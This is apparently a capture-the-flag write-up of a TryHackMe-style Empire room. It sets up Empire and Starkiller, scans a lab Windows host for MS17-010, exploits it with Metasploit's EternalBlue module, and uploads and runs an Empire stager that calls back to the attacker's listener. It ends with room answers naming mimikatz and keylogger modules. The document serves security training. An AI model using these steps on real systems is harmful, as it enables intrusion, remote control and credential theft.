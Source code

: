 
# Empire

## *Setup*

Install the Empire from its [Github](https://github.com/BC-SECURITY/Empire/)

If you have troubles building Empire docker image because of permissions to
 /var/lib/python3/ directory, replace the following content of Dockerfile:

```
RUN apt-get update && \
      apt-get -y install \
        sudo \
	    python3-dev \
	    python3-pip \
	    apt-transport-https \
	    xclip \
	    zip \
    && rm -rf /var/lib/apt/lists/*
```

With this one:

```
RUN apt-get update && \
      apt-get -y install \
        sudo \
	    python3-dev && \
	    curl "https://bootstrap.pypa.io/get-pip.py" -o "install-pip3-ubuntu.py" && \
	    python3 install-pip3-ubuntu.py && \
	    apt-get update && \
			apt-get -y install \
				apt-transport-https \
				xclip \
				zip \
    && rm -rf /var/lib/apt/lists/*
```

Then build it and start:

```bash
$ docker build -t bcsecurity/empire .

$ docker create -v /empire --name data bcsecurity/empire

$ docker run -it -p 1337:1337 -p 8000:8000 --volumes-from data bcsecurity/empire server
```

Then,install Starkiller from its [Github](https://github.com/BC-SECURITY/Starkiller/releases ):

```bash
$ chmod +x starkiller-0.0.0.AppImage

$ ./starkiller-0.0.0.AppImage
```

To login, use default credentials

- Uri: 127.0.0.1:1337

- User: empireadmin

- Pass: password123

---

## *Exploitation*

Ok, let's deploy and exploit the machine. From the room description its pretty obvious 
that it's a Windows machine, vulnerable to EternalBlue exploit, but we'll confirm
it before we begin:

```bash
$ sudo nmap 10.10.13.146 -Pn -p 3389,445,135,139,5000 -A -vv -T4 --script vuln -oN nmap-scan --min-parallelism 55
```

```
Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


```

Interaction via Starkiller is pretty much obvious.

login to Empire server and create an "http" listener. Specify your tryhackme IP
and port 8000:

![listener](https://i.postimg.cc/1Rg2wrPD/listener-config.png)

Then, in the sidebar select "Stagers" and create an "multi/launcher"
stager. Specify the previously created http listener in "listener" input and trigger
the "Obfuscate" toggle. Clear "Bypasses" and hit "Create" button in the header.

![stager](https://i.postimg.cc/N09mpF0C/stager-config.png)

Then, use the Stagers list to download copy payload. You better save the payload
to a .bat file.

![copy](https://i.postimg.cc/gJbXsKQr/copy-stager.png)

After you successfully saved the Empire stager, launch Metasploit and search for
eternalblue. Exploit the vulnerability, transfer the stager and execute it:

```
msf> search eternalblue

msf> use exploit/windows/smb/ms17_010_eternalblue

# set Rhost and lhost variables

msf> exploit

meterpreter> upload stager.bat

meterpreter> execute -f stager.bat
```

You should see something like this in "Agents":

![agent](https://i.postimg.cc/BQ50PBcM/agents.png)


---


## *Modules*

- What module allows you to use any mimikatz command?

Select the agent and navigate to "Interact" tab. Type in "mimikatz" in the
"Execute module":

![mimikatz](https://i.postimg.cc/nr4vqhkj/mimikatz.png)

> powershell/credentials/mimikatz/command

- What MITRE ATT&CK technique is associated with powershell/trollsploit/voicetroll?

Input the module name and the answer will appear

> T1491

- What module implants a keylogger on the device?

> powershell/collection/keylogger

- What MITRE ATT&CK technique is associated with the module above?

> T1056


